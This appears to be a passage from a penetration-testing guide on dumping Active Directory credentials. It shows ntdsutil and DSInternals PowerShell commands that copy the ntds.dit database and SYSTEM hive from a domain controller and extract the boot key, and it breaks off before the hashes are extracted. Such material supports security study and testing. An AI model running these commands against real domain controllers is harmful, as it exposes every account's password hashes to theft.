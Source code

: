 #### **📂 Prerequisites:**

* Administrative access to the domain controller.
* **DSInternals PowerShell Module** installed for extracting password hashes.

#### **⚙️ Steps:**

1. **Exfiltrate the NTDS.dit File:**

   * Use the **ntdsutil** command to create a copy of the **ntds.dit** database, along with the **SYSTEM** and **SECURITY** registry hives required to decrypt it.

```powershell
C:\Windows\system32> NTDSUTIL "Activate Instance NTDS" "IFM" "Create Full C:\Files" "q" "q"
```

* This command creates a copy of the NTDS database and registry files in the **C:\Files** directory.
* The **SYSTEM** hive is critical, as it contains the boot key required to decrypt the **ntds.dit** file.

![NTDSUTIL Command](/assets/image-22.png)

2. **Extract the Boot Key:**

   * Open PowerShell and run the following commands to install the **DSInternals** module and extract the boot key:

```powershell
C:\Windows\system32> powershell
PS C:\Windows\system32> Install-Module DSInternals -Force

PS C:\Windows\system32> $Key = Get-BootKey -SystemHiveFilePath C:\Files\registry\SYSTEM
```
